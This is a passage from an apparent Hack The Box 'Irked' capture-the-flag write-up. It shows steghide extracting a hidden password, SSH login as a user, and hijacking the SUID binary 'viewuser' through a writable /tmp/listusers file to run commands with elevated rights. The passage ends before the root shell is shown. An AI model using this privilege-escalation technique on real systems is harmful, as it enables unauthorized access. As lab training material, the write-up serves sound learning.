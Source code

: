 ```shell
matt@kali:~/htb/irked$ steghide info irked.jpg
"irked.jpg":
    format: jpeg
    capacity: 1.5 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase:
    embedded file "pass.txt":
    size: 17.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
matt@kali:~/htb/irked$ steghide extract -sf irked.jpg
Enter passphrase:
wrote extracted data to "pass.txt".
matt@kali:~/htb/irked$ cat pass.txt
Kab6h+m+bbp2J:HG
matt@kali:~/htb/irked$
```

This turned out to be the password for 'djmardov'.

```shell
matt@kali:~$ ssh djmardov@10.10.10.117
The authenticity of host '10.10.10.117 (10.10.10.117)' can't be established.
ECDSA key fingerprint is SHA256:kunqU6QEf9TV3pbsZKznVcntLklRwiVobFZiJguYs4g.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.117' (ECDSA) to the list of known hosts.
djmardov@10.10.10.117's password:
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue May 15 08:56:32 2018 from 10.33.3.3
djmardov@irked:~$ id
uid=1000(djmardov) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),117(bluetooth)
djmardov@irked:~$
```

Once I was able to get the user flag, I began to focus my attention on getting a root shell.

My earlier enumeration using linPEAS notably didn't yield much, so I knew I had to look for some sort of misconfiguration. I remember that there was an unusual SUID binary 'viewuser' in the /usr/bin/ folder. I performed some initial enumeration, which resulted in this:

```shell
djmardov@irked:/usr/bin$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0 2020-05-03 13:04 (:0)
djmardov pts/0 2020-05-03 13:05 (10.10.14.37)
sh: 1: /tmp/listusers: not found
djmardov@irked:/usr/bin$ echo 'echo hello' > /tmp/listusers
djmardov@irked:/usr/bin$ chmod +x /tmp/listusers
djmardov@irked:/usr/bin$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0 2020-05-03 13:04 (:0)
djmardov pts/0 2020-05-03 13:07 (10.10.14.37)
hello
djmardov@irked:/usr/bin$ echo 'id' > /tmp/listusers
djmardov@irked:/usr/bin$ chmod +x /tmp/listusers
djmardov@irked:/usr/bin$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0 2020-05-03 13:04 (:0)
```